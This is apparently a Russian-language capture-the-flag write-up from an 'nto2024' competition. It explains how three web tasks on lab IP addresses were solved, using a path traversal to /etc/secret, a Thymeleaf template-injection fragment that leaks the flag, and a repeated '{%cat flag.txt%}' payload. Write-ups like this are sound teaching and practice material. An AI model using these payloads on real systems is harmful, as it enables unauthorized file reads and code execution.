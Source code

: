 # nto2024

Итак, мы смогли решить только 3 задачи на веб, не будем тянуть кота за **** и приступим к объяснению:

WEB1:
Мы перешли по ссылке 192.168.12.10:5001/download?file_type= и в параметре file_type указали /../../etc/secret, скачался файл secret, в котором и был флаг(flag)

WEB2:
Переходим сюда: 
http://192.168.12.13:8090/login?password=password
Далее заменяем следующий div:
<div>
    Error resolving template [flag], template might not exist or might not be accessible by any of the configured Template Resolvers
</div>
на:
<div th:fragment="main">
    <span th:text="'Hello, + ${flag}"></span>
</div>
Далее в сообщении ошибки появляется настоящий флаг

WEB3:
заходим на http://192.168.12.11:8001/flag/
получаем 403,
далее передаем в параметр name нагрузку:
http://192.168.12.11:8001/flag/?name={%25cat%20flag.txt%25}
Отправляем 3000 запросов, в одном из них будет флаг и http-код 200
